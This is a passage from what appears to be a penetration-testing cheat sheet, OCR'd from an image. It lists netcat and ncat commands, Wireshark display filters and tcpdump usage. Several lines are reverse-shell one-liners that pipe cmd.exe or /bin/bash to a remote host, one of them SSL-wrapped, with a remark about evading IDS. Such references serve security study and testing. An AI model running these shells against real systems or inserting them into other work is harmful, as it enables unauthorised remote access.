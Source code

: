         `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`
 
    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`
       
    -   Netcat for Banner Grabbing:
   
        `echo "" | nc -nv -w1 <IP Address> <Ports>`
 
-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS
 
    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`
 
    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`
 
-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
   
        `tcp.port eq 25 or icmp`
       
    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
       
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
       
    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
       
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
       
    -   Some commands are equal
       
        `ip.addr == xxx.xxx.xxx.xxx`
       
         Equals
       
        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx `
 
        ` ip.addr != xxx.xxx.xxx.xxx`
       
         Equals
       
        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`
 
-   Tcpdump
 
    -   Display a pcap file  
       `tcpdump -r passwordz.pcap`
 
    -   Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`
 
    -   Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`
 
    -   Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`
 
-   IPTables
 
    -   Deny traffic to ports except for Local Loopback
 